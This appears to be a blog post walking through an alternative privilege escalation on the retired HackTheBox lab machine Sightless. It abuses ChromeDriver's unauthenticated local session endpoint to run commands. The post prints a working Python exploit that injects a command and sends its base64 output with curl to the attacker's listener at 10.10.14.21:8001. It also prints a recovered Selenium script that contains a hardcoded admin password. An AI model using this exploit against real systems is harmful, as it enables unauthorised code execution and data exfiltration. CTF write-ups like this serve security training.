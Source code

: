 Hey folks,

I've been working on getting my OSCP and that means drilling HackTheBox. A few months ago, I found myself rabbit-holeing an easy box and it paid off. Now that the box is retired, I want to share the trick I used. 

Sightless is a Box sporting SQLPad and Froxlor. Cracking SQLPad was easy enough and got me shell access as the user `michael`. 

According to the official writeup here, once you're on the box as `michael`, you're supposed to netstat for local ports and find 8080 for privesc. I was going about privesc recon and I saw that I needed to target the "john" account. `ps -aux | grep john` yielded quite a few interesting processes, and I didn't even need netstat to see that some dynamic ports were open (see `--port=34395` below)
![[Pasted image 20250401160249.png]]

Doing some digging, I found a [blogpost](https://www.gabriel.urdhr.fr/2021/08/16/chromedriver-cross-origin-request-forgery-rce/) from 2021 referencing a [quirk](https://issues.chromium.org/issues/40052697) (and I say quirk rather than vulnerability because the devs have marked this "won't fix") in chromium which you can use to get arbitrary code execution if and only if you're already on a box.

As such, I was able to write this goofy little codeblock after setting up a listener on 8001
```python
import requests
import json
import sys

def main(port, command):
    url = f"http://localhost:{port}/session"
    headers = {'Content-Type': 'text/plain'}
    
    # Body mimicking Chrome WebDriver configuration with dynamic command injection
    body = {
        "capabilities": {
            "alwaysMatch": {
                "goog:chromeOptions": {
                    "binary": "/usr/bin/python3",
                    "args": [f"-cimport os;os.system('curl 10.10.14.21:8001?cmd=$({command} | base64)')"]
                }
            }
        }
    }

    try:
        # Make the POST request
        response = requests.post(url, headers=headers, data=json.dumps(body))
        
        # Output the response status and content
        print(f"Response status code: {response.status_code}")
        print(f"Response content: {response.content}")
    
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    # Expect port and command to be passed as command-line arguments
    if len(sys.argv) != 3:
        print("Usage: python script.py <port> <command>")
    else:
        port = sys.argv[1]
        command = sys.argv[2]
        main(port, command)

```

while the shell this got me wasn't very privileged, it did yield me the Froxlor selenium script

```python
#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys
from selenium.common.exceptions import UnexpectedAlertPresentException
from selenium.common.exceptions import NoAlertPresentException
from selenium.webdriver.common.alert import Alert
from selenium.webdriver.support import expected_conditions as EC
import time
import threading
import schedule

options = Options()
options.add_argument('--headless')
options.add_argument('--no-sandbox')
options.add_argument('--disable-dev-shm-usage')

# Update this line with the path to your locally downloaded Chrome driver
chrome_driver_path = '/home/john/automation/chromedriver'

# Use Service to specify the Chrome driver binary path
service = Service(chrome_driver_path)
service.start()

driver = webdriver.Chrome(service=service, options=options)

def dismiss_all_alerts(driver):
    while True:
        try:
            alert = driver.switch_to.alert
            print(f"Dismissed alert with text: {alert.text}")
            alert.accept()
            time.sleep(1)
        except NoAlertPresentException:
            break

print("browser opened")
while True:
    try:
        driver.get("http://admin.sightless.htb:8080/admin_logger.php?page=log")
        time.sleep(7)

        # Username Field
        input_element = driver.find_element(By.ID, "loginname")
        input_element.send_keys("admin")

        # Password field
        input_element = driver.find_element(By.ID, "password")
        input_element.send_keys("ForlorfroxAdmin" + Keys.ENTER)
        print("Logged In...")
    except UnexpectedAlertPresentException:
        input_element.send_keys(Keys.ENTER)
        pass
    time.sleep(5)
    dismiss_all_alerts(driver)
    driver.get("http://admin.sightless.htb:8080/admin_index.php?action=logout")
    driver.get("http://admin.sightless.htb:8080/")
    print("Logged Out")
    time.sleep(3)
    #driver.close()
```

which, if you were paying attention, includes the line `input_element.send_keys("ForlorfroxAdmin" + Keys.ENTER)`. I was able to use this password to escalate.

If you're a CTF admin, make sure you're [hiding root processes from users](https://unix.stackexchange.com/questions/17164/how-to-make-a-process-invisible-to-other-users) and otherwise, happy hacking ;)